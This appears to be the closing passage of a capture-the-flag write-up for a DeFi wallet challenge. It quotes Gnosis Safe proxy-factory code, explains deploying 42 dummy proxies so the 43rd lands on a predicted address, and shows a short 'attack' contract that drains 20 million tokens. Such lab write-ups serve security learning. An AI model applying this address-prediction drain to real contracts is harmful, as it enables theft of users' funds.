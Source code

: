 [Gnosis Safe Proxy Factory Code](https://etherscan.io/address/0x76e2cfc1f5fa8f6a5b3fc4c8f4788f0116861f9b#code)
```
    /// @dev Allows to create new proxy contact and execute a message call to the new proxy within one transaction.
    /// @param masterCopy Address of master copy.
    /// @param data Payload for message call sent to new proxy contract.
    function createProxy(address masterCopy, bytes memory data)
        public
        returns (Proxy proxy)
    {
        proxy = new Proxy(masterCopy);
        if (data.length > 0)
            // solium-disable-next-line security/no-inline-assembly
            assembly {
                if eq(call(gas, proxy, 0, add(data, 0x20), mload(data), 0, 0), 0) { revert(0, 0) }
            }
        emit ProxyCreation(proxy);
    }
    /// ...
    /// @dev Allows to create new proxy contact using CREATE2 but it doesn't run the initializer.
    ///      This method is only meant as an utility to be called from other methods
    /// @param _mastercopy Address of master copy.
    /// @param initializer Payload for message call sent to new proxy contract.
    /// @param saltNonce Nonce that will be used to generate the salt to calculate the address of the new proxy contract.
    function deployProxyWithNonce(address _mastercopy, bytes memory initializer, uint256 saltNonce)
        internal
        returns (Proxy proxy)
    {
        // If the initializer changes the proxy address should change too. Hashing the initializer data is cheaper than just concatinating it
        bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), saltNonce));
        bytes memory deploymentData = abi.encodePacked(type(Proxy).creationCode, uint256(_mastercopy));
        // solium-disable-next-line security/no-inline-assembly
        assembly {
            proxy := create2(0x0, add(0x20, deploymentData), mload(deploymentData), salt)
        }
        require(address(proxy) != address(0), "Create2 call failed");
    }
```

In conclusion, the final step involves deploying 42 dummy proxies. On the 43rd attempt, we deploy our attack wallet, which then enables us to successfully drain the 20 million tokens.

Attack Wallet code:
```sol
contract MockWallet {
    function attack(address _token, address _player) public {
        DamnValuableToken(_token).transfer(_player, 20000000 ether);
    }
}
```
